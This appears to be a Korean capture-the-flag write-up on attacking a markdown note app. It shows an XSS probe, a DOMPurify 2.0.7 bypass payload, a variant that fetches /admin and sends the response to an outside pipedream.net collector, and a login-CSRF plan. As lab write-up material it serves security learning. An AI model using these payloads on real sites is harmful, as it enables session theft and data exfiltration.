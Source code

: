 ```html
<img src=x onerror=alert(1)>
```

XSS를 트리거 하기 위해 위 POC를 저장해주니 당연히 sanitize에 의해 XSS가 제어 되고 있는 것을 확인할 수 있었습니다.

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js" integrity="sha512-L03kznCrNOfVxOUovR6ESfCz9Gfny7gihUX/huVbQB9zjODtYpxaVtIaAkpetoiyV2eqWbvxMH9fiSv5enX7bw==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.0.7/purify.min.js" integrity="sha512-pAsGSA54gmV3kpBZBDMk7SgP6DnYNNzj6ZFZ6//jUKOaXSSkE5sdbZMazo3u5QOofhZoGeNwo4Z4e526HPQhcg==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
```
Dompurify는 2.0.7을 이용해 XSS를 대응하는 것을 확인 할 수 있었고, Dompurify Bypass Poc를 이용해서 XSS를 트리거 하기로 했습니다.

![image](https://user-images.githubusercontent.com/49112423/134767329-7625d16d-0af6-481f-b0f7-ba713d6e34bf.png)

```html
</p><form><math><mtext></form><form><mglyph><style></math><img src=x onerror="alert(1)"><p>
```

위 POC 코드를 저장해주니 Dompurify가 우회 돼 XSS가 트리거 되는 것을 확인할 수 있었고, 양 끝에 `</p>`, `<p>` 태그를 넣어준 이유는 `converter.makeHtml()`를 이용해서 마크다운을 HTML로 변환해주고 반환 해주는데, 이때 양 옆에 불 필요한 `<p>` 태그가 생겨 무효화 시켜 주기 위함 입니다.

```html
</p><form><math><mtext></form><form><mglyph><style></math><img src=x onerror="fetch('/admin').then(function(response){return/**/response.text();}).then(function(x){fetch('https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/f='+x)})"><p>
```

마지막으로 위 POC 코드를 이용해서 플래그를 획득 하기로 했지만, Note 마다 고유의 번호가 존재 하지 않아 POC 코드를 저장해도 관리자가 해당 페이로드를 읽게 하는 데 무리가 있었습니다.

```python
@app.route('/login', methods=['GET', 'POST'])
async def login_():
    err = ''
    if quart.request.method == "POST":
        form = await quart.request.form
        username, password = map(form.get, ['username', 'password'])

        if username is None or password is None:
            err = "Username and password must be specified"
        elif not await login(username, password):
            err = "Invalid username or password"
        else:
            quart.session['user'] = username
            return quart.redirect(quart.url_for('me'))

    return await quart.render_template('login.html', err=err)
```
그러다가 로그인 로직을 확인 해보니 로그인을 성공하면 현재 로그인 한 사용자 세션으로 `/me`로 리다이렉션 시켜주는 것을 확인 할 수 있었습니다. 이를 이용해서 그냥 `CSRF` 해주면 됩니다.

개인 서버에 `Form` 태그를 올리고 관리자가 제 계정으로 로그인 하게 하고, 제 세션의 관리자 권한을 올려 플래그를 읽기로 했습니다.
